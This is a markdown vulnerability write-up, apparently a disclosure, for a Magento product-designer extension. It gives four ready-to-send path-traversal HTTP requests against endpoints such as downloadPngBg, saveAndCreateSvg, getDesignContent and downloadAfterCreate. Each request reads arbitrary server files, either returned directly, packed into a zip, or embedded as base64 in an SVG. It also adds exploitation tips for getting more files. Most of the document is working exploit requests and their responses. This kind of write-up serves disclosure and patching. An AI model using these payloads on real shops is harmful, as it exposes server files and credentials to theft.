 # Read files from the server

The extension contains several vulnerabilities that allow reading and disclosure of any files on the server that can be read by the webserver/PHP user.

## Method 1: read multiple files, conveniently packed into a zip archive

### Request:
```
POST https://testing.local.tld/pdp/print/downloadPngBg/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="order_id"

1000
---------------------------acebdf13572468
Content-Disposition: form-data; name="type"

any
---------------------------acebdf13572468
Content-Disposition: form-data; name="images"

["../../../../../../../../../../../tmp/foo.php"]
---------------------------acebdf13572468--
```

### Response body (JSON):
```
{"status":"download","path":"https:\/\/testing.local.tld\/media\/\/pdp\/export\/order_1000\/order_1000_any_files.zip"}
```

The linked ZIP file contains all the files passed in the request. The filenames contain those leading `../../..`, so extracting them can be tricky.

The generated ZIP file is never deleted, and is not overwritten if it exists. So `order_id` or `type` should be varied to get more files in subsequent requests. 

---

## Method 2: read multiple files, base64-encoded and embedded into an XML file

### Request:
```
POST https://testing.local.tld/pdp/index/saveAndCreateSvg/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="svg_string"

<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink">       
<box>
  <image xlink:href="../../../../../../../../../tmp/foo.php" x="0" y="0"
      height="100" width="100" />    
</box>
</svg>
---------------------------acebdf13572468
Content-Disposition: form-data; name="order_info[side_label]"

any
---------------------------acebdf13572468
Content-Disposition: form-data; name="order_info[increment_id]"

any
---------------------------acebdf13572468
Content-Disposition: form-data; name="order_info[order_id]"

any
---------------------------acebdf13572468
Content-Disposition: form-data; name="order_info[item_id]"

any
---------------------------acebdf13572468--
```

### Response body (JSON)
```
{"status":"success","message":"Image have been successfully saved!","thumbnail_path":"https:\/\/testing.local.tld\/media\/pdp\/export\/svg\/Design-any-Order-any-Item-any-1479932459.svg","file_location":"\/var\/www\/testing.local.tld\/web\/media\/pdp\/export\/svg\/Design-any-Order-any-Item-any-1479932459.svg"}
```

The extension tries to embed all files referenced via `<image xlink:href="" />`.
These referenced filenames are not restricted, so it will read any file on the server, 
and the href will be replaced with a data-URI for the content of that file.

Note: the sent SVG does not need to be a valid *SVG*, 
it just needs to be valid XML that `simplexml_load_string` can parse.
There needs to be one container element between the XML root element and the `<image>` element.

**Note**: A similar endpoint exists that does the same thing and then converts the generated SVG to PDF using TCPDF,
it is possible that TCPDF's SVG embed functionality has some other useful tricks.

## Method 3: read single file

### Request:
```
POST https://testing.local.tld/pdp/template/getDesignContent/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="json_filename"

/../../../../../../../../../tmp/foo.php
---------------------------acebdf13572468--
```

### Response
The contents of the file.

Filename is interpreted as relative to Magento's `media/pdp/json/` directory.

## Method 4: read single file

### Request:
```
POST https://testing.local.tld/pdp/index/downloadAfterCreate/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="file-name"

/../../../../../../../../../tmp/foo.php
---------------------------acebdf13572468
Content-Disposition: form-data; name="type"

png
---------------------------acebdf13572468--
```

### Response:
The contents of the file.

Filename is interpreted as relative to Magento's `media/pdp/export/<type>/` directory.

